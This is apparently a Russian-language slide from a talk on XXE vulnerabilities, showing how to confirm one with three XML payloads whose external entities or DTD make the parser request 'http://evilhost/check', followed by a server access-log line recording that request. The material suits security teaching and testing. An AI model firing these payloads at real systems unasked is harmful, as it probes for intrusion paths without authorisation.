

# Как проверить?
HTTP/DNS запрос:
<!DOCTYPE greeting [
<!ENTITY z SYSTEM "http://evilhost/check" > ]>
<greeting>&z;</greeting>

<!DOCTYPE greeting [
<!ENTITY % z SYSTEM "http://evilhost/check" > %z; ]>

<!DOCTYPE z SYSTEM "http://evilhost/check" >
<z/>

cat /var/logs/access.log
192.168.0.1 - - [22/Aug/2016:13:29:24 +0300] “GET /check HTTP/1.1" 405 569 "-"